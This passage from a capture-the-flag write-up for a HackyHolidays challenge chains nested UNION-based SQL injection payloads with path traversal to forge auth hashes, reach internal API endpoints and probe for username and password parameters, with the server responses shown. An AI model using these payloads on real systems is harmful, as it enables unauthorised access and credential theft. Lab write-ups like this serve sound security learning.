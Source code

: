 ```
{"image":"r3c0n_server_4fdk59\/uploads\/recon","auth":"015cc4ed326cfc9e314afdaf594a5ce3"}

https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=lol ' union+select "1' union select \"1\",\"2\",version()--+-","2","3"--+-

{"image":"r3c0n_server_4fdk59\/uploads\/8.0.22-0ubuntu0.20.04.3","auth":"03d2bc97a58dc15c4eaf5d4fa2d9f93d"}
```
Combining with path traversal, we can generate valid auth hash for any endpoint which we want to make reuqest.
```
https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=lol ' UNION SELECT "1' union select \"1\",\"2\",\"../api/\"--+-","2","3"--+-

{"image":"r3c0n_server_4fdk59\/uploads\/..\/api\/","auth":"05a7e708a5f3da76506023047628829d"}
```
Now we can perfrom request to api endpoint /api/* with valid auth hash.
```
https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/picture?data=eyJpbWFnZSI6InIzYzBuX3NlcnZlcl80ZmRrNTlcL3VwbG9hZHNcLy4uXC9hcGlcLyIsImF1dGgiOiIwNWE3ZTcwOGE1ZjNkYTc2NTA2MDIzMDQ3NjI4ODI5ZCJ9
```
One thing is that we need to find valid endpoint to make requests.After guessing multiple endpoints, the following endpoint seems to be valid bocz it response with "Invalid content type detected" .Normally if we make request to invalid endpoint the server responses us with 404.

```
https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=lol ' UNION SELECT "1' union select \"1\",\"2\",\"../api/lol\"--+-","2","3"--+-

{"image":"r3c0n_server_4fdk59\/uploads\/..\/api\/lol","auth":"494c095363e0f1a99e1c869887522c62"}

https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/picture?data=eyJpbWFnZSI6InIzYzBuX3NlcnZlcl80ZmRrNTlcL3VwbG9hZHNcLy4uXC9hcGlcL2xvbCIsImF1dGgiOiI0OTRjMDk1MzYzZTBmMWE5OWUxYzg2OTg4NzUyMmM2MiJ9

Expected HTTP status 200, Received: 404

https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=lol ' UNION SELECT "1' union select \"1\",\"2\",\"../api/user\"--+-","2","3"--+-

Invalid content type detected
```

By using the same method, we can guess the  parameters either and found username and password.
```
https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=lol ' UNION SELECT "1' union select \"1\",\"2\",\"../api/user?test=lol\"--+-","2","3"--+-

Expected HTTP status 200, Received: 400 Bad Request

https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=lol ' UNION SELECT "1' union select \"1\",\"2\",\"../api/user?username=lol\"--+-","2","3"--+-

Expected HTTP status 200, Received: 204

https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=lol ' UNION SELECT "1' union select \"1\",\"2\",\"../api/user?password=lol\"--+-","2","3"--+-

Expected HTTP status 200, Received: 204
```
So far, we have valid api endpoint and parameters either, now final step is to get valid username and password.
